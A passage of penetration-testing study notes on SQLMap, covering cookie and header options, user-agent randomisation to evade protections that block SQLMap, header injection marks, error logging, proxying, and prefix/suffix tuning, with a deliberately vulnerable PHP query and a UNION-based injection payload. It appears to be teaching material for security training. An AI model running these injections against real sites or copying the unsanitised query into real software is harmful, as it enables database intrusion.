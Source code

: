 If we wanted to craft complicated requests manually, there are numerous switches and options to fine-tune SQLMap. For example, the flag `--cookie` to send one:
```console
zero@pio$ sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
zero@pio$ sqlmap --- -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

We can apply the same to options like `--host`, `--referer`, and `-A`/`--user-agent`. Also, the flag `--random-agent` select a randomly **User-agent**. This is an important switch to remember, as more and more protection solutions automatically drop all HTTP traffic containing the recognizable default SQLMap's User-agent value (`User-agent: sqlmap/1.4.9.12#dev`). The `--mobile` switch can be used to imitate the smartphone by using that same header value.

It is possible to test the headers for the SQLi vulnerability. The easiest way is to specify the "custom" injection mark after the header's value (e.g. `--cookie="id=1*"`). Also, we can specify the HTTP method with `--method`:
```console
zero@io$ sqlmap -u www.target.com --data='id=1' --method PUT
```

## Handling SQLMap Errors 

To display errors we can use the flag `--parse-errors`. If we want to store the traffic to an output file `-t`:
```console
zero@pio$ sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

As always, the `-v` increase the verbosity. And the `--proxy` allow us to redirect the request, for example to Burp.

## Attack Tuning

### Prefix/Suffix 

There is a requirement for special prefix and suffix values in rare cases, not covered by the regular SQLMap run:
```console
zero@pio$ sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

For example if the vulnerable code is:
```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

The payload will be:
```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

### Level/Risk 
